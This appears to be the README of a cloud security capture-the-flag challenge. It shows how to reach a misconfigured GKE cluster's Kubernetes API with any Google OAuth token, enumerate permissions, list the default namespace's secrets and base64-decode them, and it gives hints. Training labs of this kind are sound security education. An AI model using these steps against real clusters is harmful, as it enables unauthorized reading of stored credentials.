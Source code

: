 # Challenge 1: Confidential Cluster

## Introduction

You received just an IP address as your very first entrypoint into the GCP project.  
The IP belongs to a Google Kubernetes Cluster (GKE) - how can you access the Kubernetes API to learn more about the cluster?


To simplify your next commands, set the IP address as an environment variable:  
#####
    export IP=<IP>

You can access the API of the cluster at this endpoint:  
#####
    curl -k https://$IP/api

As you are not authenticated, you are part of the group `system:anonymous` and you can't access much.  
Most endpoints will respond with 403 permission denied.  

But what if you were in `system:authenticated`? 
Try to get a token for your own Google account using the [OAuth playground](https://developers.google.com/oauthplayground/) (select scope "Kubernetes Engine API v1").  

Set your token as environment variable to make the next commands easier to use.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

Just by supplying any Google access token you will be able to access the endpoint!  

Once you have gained access and can read from the Kubernetes API - which API resources can you query?

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

It looks like you have read access to some resources on the default namespace of the cluster.  
You can also query them by using the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer <token>" https://$IP/api/v1/namespaces/default/...

## Your Goal

**Discover the secrets that this cluster has in store for you.**

## Useful commands and tools:

- `curl -k https://$IP`
- `curl -k -H "Authorization:Bearer <token>" https://$IP/api/v1/namespaces/default/...`
- [Google OAuth Playground](https://developers.google.com/oauthplayground/)
- Learn more about this misconfiguration [here](https://orca.security/resources/blog/sys-all-google-kubernetes-engine-risk)

## Hints

<details>
  <summary>Hint 1</summary>

  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
      curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets

</details>

<details>
  <summary>Hint 2</summary>

  The secret values are base64 encoded. Decode them to read the value:  
  #####
      echo -n <secret-value> | base64 -d  

</details>
